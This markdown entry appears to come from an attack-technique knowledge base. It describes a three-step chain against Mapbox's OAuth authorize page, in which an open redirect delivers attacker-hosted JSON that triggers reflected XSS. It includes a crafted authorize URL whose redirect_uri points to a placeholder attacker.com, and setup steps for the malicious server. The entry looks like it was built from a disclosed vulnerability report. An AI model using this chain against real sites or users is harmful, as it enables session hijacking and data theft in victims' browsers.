

---
tags:
  - xss
  - open-redirect
  - oauth
  - javascript-injection
type: attack_chain
tools:
  - '[[tools/Chrome]]'
  - '[[tools/Safari]]'
  - '[[tools/Firefox]]'
  - '[[tools/Internet-Explorer-11]]'
  - '[[tools/Edge]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Setup-Malicious-OAuth-JSON-Server-with-CORS]]'
  - '[[procedures/Exploit-Open-Redirect-in-Mapbox-Authorize]]'
  - '[[procedures/Verify-XSS-Execution-via-Browser]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:24:31.331Z'
description: >-
  A multi-stage attack exploiting an open redirect in Mapbox's OAuth
  authorization endpoint to deliver a malicious JSON response that triggers
  reflected XSS on the authorize page, enabling arbitrary JavaScript execution
  in the victim's browser context.
skill_level: intermediate
impact_level: high
id: 22afd563-2665-424c-a9a8-e128c56f1fbf
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Chained Open Redirect and XSS in Mapbox OAuth for Arbitrary JavaScript Execution

Multi-stage attack chain demonstrating exploitation of an open redirect vulnerability in Mapbox's /core/oauth/auth endpoint to chain into reflected XSS on www.mapbox.com/authorize/, allowing attackers to execute arbitrary JavaScript in the victim's browser under the Mapbox domain.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Chrome]]
- HTTPS-capable web server (e.g., Node.js with Express or Python's http.server with SSL)

### Target Environment

- Web platform
- OAuth service on Mapbox (www.mapbox.com/authorize/)
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Control over an HTTPS server to host malicious JSON
- Victim's browser access to the Mapbox authorize page
- No prior credentials needed; social engineering to lure victim to crafted URL

## Detailed Attack Procedures

### Step 1: Setup Malicious Server
procedure: [[procedures/Setup-Malicious-OAuth-JSON-Server-with-CORS]]

**Objective**: Host a malicious JSON response on an HTTPS server that injects XSS payload via the 'authorize_url' property, and configure CORS to allow fetching from Mapbox domain.

**Instructions**: Deploy an HTTPS server serving the JSON file with the payload, and set appropriate CORS headers. Use a tool like Node.js to create the endpoint.

**Expected Output**: Server responding with JSON containing the injected script tag, accessible via HTTPS URL.

**Success Indicators**:
- JSON endpoint returns 200 with malicious content
- CORS headers allow cross-origin requests from www.mapbox.com

### Step 2: Trigger Open Redirect
procedure: [[procedures/Exploit-Open-Redirect-in-Mapbox-Authorize]]

**Objective**: Craft and load the Mapbox authorize URL with the malicious redirect_uri to initiate the 302 redirect to the attacker's server.

**Instructions**: Construct the URL as https://www.mapbox.com/authorize/?redirect_uri=https://attacker.com/malicious.json and open it in a browser. This triggers a GET to /core/oauth/auth, resulting in a redirect to the JSON endpoint.

**Expected Output**: Browser follows redirect, fetches JSON from attacker server, and Mapbox page attempts to render it.

**Success Indicators**:
- 302 redirect observed in network tab
- JSON fetched successfully due to CORS

### Step 3: Verify XSS Execution
procedure: [[procedures/Verify-XSS-Execution-via-Browser]]

**Objective**: Confirm that the unescaped 'authorize_url' in the template-modal-oauth breaks the HTML and executes the injected JavaScript.

**Instructions**: Observe the alert popup or console logs in the browser after loading the URL. The payload '>' should execute in the Mapbox context.

**Expected Output**: Alert box showing 'www.mapbox.com' or equivalent domain.

**Success Indicators**:
- JavaScript alert fires
- Console shows execution in Mapbox domain context

## Attack Chain Summary

### Key Achievements

1. Bypassed redirect validation to control OAuth flow response
2. Injected and executed arbitrary JS via unescaped template rendering
3. Demonstrated potential for session hijacking or data theft in victim browser

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
